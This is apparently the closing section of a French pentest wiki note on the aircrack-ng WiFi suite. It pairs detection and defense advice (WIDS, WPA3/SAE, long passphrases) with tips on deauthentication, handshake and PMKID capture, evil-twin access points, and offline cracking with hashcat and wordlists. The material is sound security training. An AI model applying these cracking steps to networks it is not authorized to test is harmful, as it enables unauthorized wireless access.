| **Liens associés** | [[Outil - hcxdumptool]] · [[Outil - hashcat]] · [[Outil - Wifite]] · [[Outil - mdk4]] · [[Techniques/Attaques WiFi - WPA2 PSK]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Deauth massives (`aireplay-ng -0`) | WIDS/WIPS : alerter sur les spikes de deauth = tentative de capture de handshake |
| Trames de probe/injection anormales | Détection WIDS des modes moniteur non autorisés |
| Cracker offline du handshake WPA2 | Passphrase > 12 caractères aléatoires : rend le dictionnaire inutile |
| Attaque PMKID | Passer en **WPA3/SAE** : plus de PSK à dériver |
| Rogue AP / evil twin (`airbase-ng`) | 802.1X + certificats, inventaire des BSSID, WIDS |
| `airmon-ng check kill` sur un poste | Supervision des processus, politique de sécurité des postes |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Toujours vérifier l'**injection** avant l'attaque (`aireplay-ng -9`). Une carte sans injection = capture inutile.
> - Utilisez `hcxpcapngtool` pour exporter le handshake en hashcat **22000** et gagner du temps avec les GPUs.
> - Gardez plusieurs wordlists spécialisées (rockyou, passwords métier) : le cracking vaut ce que vaut la liste.
> - En multi-captures, vérifier la validité d'un handshake avec `aircrack-ng cap-01.cap` avant de lancer un crack long.

> [!warning] ⚠️ **Pièges**
> - `airmon-ng check kill` coupe le réseau (WiFi/Ethernet). Prévoir un accès filaire ou restaurer après.
> - Sans client connecté, pas de handshake : il faut attendre une reconnexion (ou un AP qui émet le PMKID → scénario 2).
> - En Europe, les canaux 12-14 et les puissances maximales sont réglementés : restez dans un lab autorisé.
> - Ne jamais mélanger hcxdumptool et la suite aircrack-ng sur la **même** interface en simultané (conflits d'injection).

---

## 📚 References

### Official

- Documentation officielle : https://www.aircrack-ng.org/doku.php
- GitHub officiel : https://github.com/aircrack-ng/aircrack-ng
- Changelog : https://www.aircrack-ng.org/doku.php?id=changelog
- Page de téléchargement : https://www.aircrack-ng.org/downloads.html

### Security references

- MITRE ATT&CK T1110 — Brute Force : https://attack.mitre.org/techniques/T1110/
- MITRE ATT&CK T1040 — Network Sniffing : https://attack.mitre.org/techniques/T1040/
- MITRE ATT&CK T1200 — Hardware Additions : https://attack.mitre.org/techniques/T1200/
- Wikipedia aircrack-ng : https://en.wikipedia.org/wiki/Aircrack-ng

### Community

- Wiki communautaire et forums : https://forum.aircrack-ng.org
- HackTricks — WiFi pentesting : https://book.hacktricks.xyz/wifi-cracking
- WPA2/WPA3 attack write-ups (hashcat) : https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2

---

> [!info] 📚 **Sources**
> - [GitHub officiel aircrack-ng](https://github.com/aircrack-ng/aircrack-ng)
> - [Documentation aircrack-ng](https://www.aircrack-ng.org/)
> - [Reproductible builds Debian (version 1.7+git… en 2026)](https://tests.reproducible-builds.org/)

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Attaques WiFi (WPA2 et PMKID)|📶 Hub WiFi]] · [[Techniques/Attaques WiFi - WPA2 PSK|🔐 WPA2-PSK]] · [[Techniques/Password Cracking|🔐 Cracking]] · [[Techniques/Attaques WiFi - Préparation & Basiques|🧰 Préparation]] · [[Outil - hcxdumptool]] · [[Outil - hashcat]] · [[Outil - Wifite]]
